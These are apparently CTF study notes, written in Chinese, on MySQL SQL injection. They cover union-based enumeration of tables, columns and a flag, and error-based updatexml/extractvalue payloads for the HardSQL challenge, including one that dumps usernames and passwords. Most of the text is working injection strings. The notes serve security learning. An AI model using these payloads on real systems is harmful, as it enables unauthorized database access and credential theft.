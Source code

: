 order by x找出该数据表的字段数量
    
    1' order by 1#，1' order by 2#，返回结果相同，输入1' order by 3#返回结果不同，证明字段数为2。

爆数据库名
    
    payload: -1' union select database(),2#
    select * from news where id='-1' union select database(),2#

1.查表名

    -1' union select group_concat(table_name),2 from information_schema.tables where table_schema='sqli'#
    select * from news where id='-1' union select group_concat(table_name),3 from information_schema.tables where table_schema='sqli'#
    返回news,flag

2.查字段名
    
    -1' union select group_concat(column_name),2 from information_schema.columns where table_name='flag'#
    select * from news where id='-1' union select group_concat(column_name),2 from information_schema.columns where table_name='flag'#'
    返回字段flag

3.查数据

    -1' union select flag,1 from sqli.flag#
    select * from news where id='-1' union select flag,1 from sqli.flag#'
    返回目标值

### 0x3 SQL 报错注入: admin'or(updatexml(1,concat(0x7e,version(),0x7e),1))%23&password=21
![报错原理解析](articles/sql错误注入.md)

1. 使用updatexml报错法注入:  admin'or(updatexml(1,concat(0x7e,version(),0x7e),1))%23&password=21
2. 

https://www.cnblogs.com/anweilx/p/12464859.html
https://www.cnblogs.com/Cl0ud/p/12419200.html
https://blog.csdn.net/qq_45653588/article/details/106342571
https://blog.csdn.net/weixin_44732566/article/details/104417351

方法1 updatexml -- 极客大挑战 2019]HardSQL

```
查version
username=admin'or(updatexml(1,concat(0x7e,version(),0x7e),1))%23&password=21
查database
username=admin'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23&password=21
查表
username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23&password=21
查字段
username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23&password=21
查数据
username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(username,'~',password))from(H4rDsq1)),0x7e),1))%23&password=21
看wp说用right()语句在查询后面部分 只查到了一半再用left()right()语句查询拼接
username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,25)))from(H4rDsq1)),0x7e),1))%23&password=21

---
用extractvalue一样, 少一个,1的参数
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
?username=admin'or(extractvalue(1,concat(0x7e,database(),0x7e)))%23&password=21
?username=admin'or(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e)))%23&password=pass
```